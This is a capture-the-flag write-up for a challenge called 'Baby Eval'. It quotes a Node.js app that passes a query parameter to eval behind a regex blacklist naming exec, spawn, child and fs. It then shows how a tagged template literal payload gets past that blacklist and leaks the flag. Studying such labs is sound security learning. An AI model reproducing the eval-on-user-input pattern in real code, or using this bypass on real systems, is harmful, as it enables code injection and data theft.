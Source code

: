 # Baby Eval
## The App
Baby Eval is a Node app which has a path `/` which lists some information including the server source code. As seen in the code the information comes from the following function:

```javascript
function directory(keys) {
    const values = {
        "title": "View Source CTF",
        "description": "Powered by Node.js and Express.js",
        "flag": process.env.FLAG,
        "lyrics": "Good job, you’ve made it to the bottom of the mind control facility. Well done.",
        "createdAt": "1970-01-01T00:00:00.000Z",
        "lastUpdate": "2022-02-22T22:22:22.222Z",
        "source": require('fs').readFileSync(__filename),
    };

    return "<dl>" + keys.map(key => `<dt>${key}</dt><dd><pre>${escape(values[key])}</pre></dd>`).join("") + "</dl>";
}
```

The webpage is created here:
```javascript
const payload = req.query.payload;

if (payload && typeof payload === "string") {
    const matches = /([\.\(\)'"\[\]\{\}<>_$%\\xu^;=]|import|require|process|proto|constructor|app|express|req|res|env|process|fs|child|cat|spawn|fork|exec|file|return|this|toString)/gi.exec(payload);
    if (matches) {
        res.status(400).send(matches.map(i => `<code>${i}</code>`).join("<br>"));
    } else {
        res.send(`${eval(payload)}`);
    }
} else {
    res.send(directory(["title", "description", "lastUpdate", "source"]));
}
```

## Tried solutions
The goal was to get the flag. First I saw that the code can execute `eval` by entering a `payload` as the `GET` query parameter. I first did not see that the ReEx is a Blacklist, not a whitelist (stupid me), so many things don't work including calling functions because `(` and `)` are not allowed. Then I googled for a way to call a function without prenthesis. Found
```javascript
alert`hello`
```
and remembered that JavaScript Template Literals can have tags which are basically functions which first parameter is a list of strings. This list contains the parts of the string, split by the injection variables (`${x}`).

## Solution
```typescript
directory`flag`
```

```
?payload=directory`flag`
```

Because we don't have an injection variable, the argument of `directory` is just `[ "flag" ]`.